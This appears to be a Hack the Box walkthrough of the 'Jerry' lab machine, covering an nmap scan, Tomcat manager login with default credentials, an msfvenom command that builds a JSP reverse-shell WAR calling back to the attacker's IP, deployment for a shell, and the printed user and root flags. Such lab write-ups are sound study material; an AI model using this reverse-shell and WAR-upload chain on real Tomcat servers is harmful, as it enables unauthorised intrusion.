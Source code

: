 ```yaml
---
title: Jerry - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Jerry.png
---
```

![Image](/assets/Jerry.png)

Jerry is a very simple box with the purpose of tasking the attackers to work on basic web-enumeration, unrestricted file upload parameters, and simple payload creation. Let's get to it.

### Reconnaissance

Our Scan: `nmap -sV -sC --open -p- 10.10.10.95`

Our Result:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 20:58 EDT
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 242.42 seconds

```

### Service Enumeration

By the looks of it, we've got one route here. Apache Tomcat is server hosting software, and this version here is pretty outdated and vulnerable. Specifically, we're able to use the /manager/html path to deploy malicious WAR files to the server. All we need are some credentials to access.

When we navigate to the page, we're met with this screen.

![Image](/assets/Screenshot 2024-09-03 at 9.08.45 PM.png)

We can see a manager tab on the left. Rooting around a bit, we can gather some more information about the structure of tomcat configurations. However, when we try to navigate to the /manager/html path, we're prompted with a credential portal. 

Now, I tried a few different default credentials and eventually got a 403_Access_Denied

![Image](/assets/Screenshot 2024-09-03 at 9.12.33 PM.png)

We can see, though, default credentials are given here in plain text. After reinstating the machine and rebooting Firefox, I was able to login again with those.

### Initial Access

Once in, there is good information regarding the name of the machine, services in use, versions, etc. 

![Image](/assets/Screenshot 2024-09-03 at 9.28.44 PM.png)

But, I'm interested in the file upload, as it looks like we have access to gain a shell via malicious files. In order to create one, it'll need to be WAR to fit the server's parameters. 

![Image](/assets/Screenshot 2024-09-03 at 9.29.58 PM.png)

We can use MSFVenom to create one for us, using: 
`msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.3 lport=4321 -f WAR -o pwn.war`

This will create what we need, and we can upload it directly into the site. Once deployed, set up a listener for the port that we specified in the file. Once that is set, act on the file via tomcat, and boom. Shell.

![Image](/assets/Screenshot 2024-09-03 at 9.49.20 PM.png)

### Post Exploitation

Now, we've gotta find the flags. Syntax here was a bit new to me, but I figured it out. Here's some tips to remember

```
DIR - Directory listing
MORE - Almost 'cat' equivilent
```

Once you navigate to admin, this is what you find!

```
C:\Users\Administrator\Desktoplags>DIR
DIR
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktoplags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,560,448 bytes free


C:\Users\Administrator\Desktoplags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

C:\Users\Administrator\Desktoplags>

```

#easy #windows #manual 
